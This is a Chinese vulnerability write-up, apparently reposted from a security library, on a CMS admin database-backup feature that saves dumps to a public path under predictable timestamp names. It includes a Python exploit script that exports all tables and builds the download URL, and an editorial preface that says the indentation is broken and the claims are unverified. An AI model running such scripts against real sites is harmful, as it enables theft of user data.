



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：admincreatesbackup;public/database HTTPaccessible; predictabletime/part/compression;captcha/loginconditions

- **代码与转录边界（1）**：Python所有函数/if/for缩进丢失，脚本不可执行。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **凭据与会话边界（2）**：脚本需要管理员凭据主动备份并假设code1，未证明匿名下载已存在备份的完整链。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **事实待核（3）**：本地strftime时间假设服务器时钟/时区相同且无请求延迟，路径不可靠；硬编码表名/19次分页可能不完整。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（4）**：备份目录/压缩可配置已说明应保留，时间戳不是本身漏洞而是公开访问控制缺失。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（5）**：无版本/修复，有xz7486原源，不能说仅备份就自动泄漏。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 后台数据泄露

#### 漏洞详情： ####
后台可以直接备份数据库，备份后为.sql.gz文件(可以在设置里更改是否压缩)，文件名为time函数生成的时间戳，可直接爆破进行下载，这里先附上exp

    
    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory
    import requests
    import time
    
    def getDatabase(url,username, password):
    session = requests.session()
    
    u = 'http://%s/admin/index/login.html' % (url)
    head = {
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'
    }
    data = {
    'username': username,
    'password': password,
    'code': 1
    }
    session.post(u, data, headers = head)
    
    u = 'http://%s/admin/database/export.html' % (url)
    data = {
    'layTableCheckbox':'on',
    'tables[0]':'ky_ad',
    'tables[1]':'ky_addons',
    'tables[2]':'ky_bookshelf',
    'tables[3]':'ky_category',
    'tables[4]':'ky_collect',
    'tables[5]':'ky_comment',
    'tables[6]':'ky_config',
    'tables[7]':'ky_crontab',
    'tables[8]':'ky_link',
    'tables[9]':'ky_member',
    'tables[10]':'ky_menu',
    'tables[11]':'ky_news',
    'tables[12]':'ky_novel',
    'tables[13]':'ky_novel_chapter',
    'tables[14]':'ky_route',
    'tables[15]':'ky_slider',
    'tables[16]':'ky_template',
    'tables[17]':'ky_user',
    'tables[18]':'ky_user_menu'
    }
    t = time.strftime("%Y%m%d-%H%M%S", time.localtime())
    
    session.post(u, data = data)
    
    for i in range(0, 19):
    u2 = 'http://%s/admin/database/export.html?id=%s&start=0' % (url, str(i))
    session.get(u2)
    
    t = 'http://' + url + '/public/database/' + t + '-1.sql.gz'
    return t
    
    if __name__ == '__main__':
    u = '127.0.0.1'
    username = 'admin'
    password = 'admin'
    t = getDatabase(u, username, password)
    print(t)

运行代码，得到路径(默认生成路径为/public/database/，可在设置中修改)

直接访问下载

可以看到所有数据库信息全在了

https://xz.aliyun.com/t/7486

---

> 来源：白阁文库 BaizeSec/bylibrary
